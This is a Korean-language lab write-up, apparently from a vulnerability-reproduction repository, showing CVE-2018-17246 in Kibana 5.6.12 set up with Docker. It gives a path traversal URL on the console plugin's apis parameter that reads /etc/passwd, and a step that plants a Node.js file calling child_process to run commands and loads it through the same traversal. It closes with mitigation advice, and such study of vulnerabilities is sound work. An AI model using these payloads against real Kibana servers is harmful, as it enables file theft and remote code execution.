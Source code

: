 # CVE-2018-17246

> [심수용 (@protruser)](https://github.com/protruser)

<br/>

### 요약

-   Kibana는 Elasticsearch에 저장된 데이터를 시각적으로 분석하고 대시보드로 보여주는 오픈소스 도구
-   접속이 대부분 웹 UI를 통해 이루어지기 떄문에 입력값 검증이 이루어지지 않을 경우 취약점이 발생할 수 있음
-   apis 파라미터는 API 문서 로딩 시 JSON 파일 경로로 사용되며, 이 경로에 대한 검증이 없음
-   Kibana Console Plugin의 apis 파라미터 취약으로 path traversal을 통해 로컬 파일을 조회할 수 있음

<br/>
** 참고 자료 (References): **

-   <https://nvd.nist.gov/vuln/detail/cve-2018-17246>
-   <https://github.com/vulhub/vulhub/tree/master/kibana/CVE-2018-17246>

<br/>

### 환경 구성 및 실행

```bash
git clone https://github.com/protruser/kr-vulhub.git
```

깃허브 레포지토리를 clone합니다.

```bash
cd /Kibana/CVE-2018-17246
docker-compose up -d
```

docker-compose.yml 파일이 있는 디렉토리로 경로를 이동하고, yml 파일을 실행합니다. <br/>
해당 버전에서는 Kibana 5.6.12와 Elasticsearch 5.6.16를 사용합니다.

<br/>

<img src="img1.png">
<img src="img2.png">

localhost:5601로 접속을 합니다.

<br/>

### 과정

```bash
http://localhost:5601/api/console/api_server?apis=../../../../../../../../../../../etc/passwd
```

<img src="img3.png">
<img src="img4.png">

해당 url로 접속할 경우, 서버가 Internal Server Error(500) 에러를 출력하지만, 웹 로그에 etc/passwd의 정보가 출력됩니다.

-   취약한 파라미터: apis

<br/>

```bash
docker compose exec kibana bash
echo 'export default {asJson: function() {return require("child_process").execSync("id").toString()}}' > /tmp/vulhub.js
```

<img src="img5.png">

/tmp/ 경로에 웹 쉘을 업로드합니다. <br/>
Node.js의 child_process 모듈을 불러오고, id 명령의 실행 결과를 반환합니다.

```bash
http://localhost:5601/api/console/api_server?apis=../../../../../../../../../../../tmp/vulhub.js
```

웹 쉘이 업로드 된 경로로 접속합니다.

<br/>

### 결과

<img src="img6.png">

<br/>

### 정리

path traversal 취약점을 통해 임의의 파일을 읽을 수 있는 취약점

-   사용자가 URL 또는 요청 본문에 제공한 경로를 서버 내부 경로에 그대로 사용하지 않도록 제한해야 합니다.
-   경로를 정규화하여, 외부에서의 디렉토리 접근을 막아야 합니다.
-   서버 측에 파일 접근 인터페이스를 제거해야 합니다.
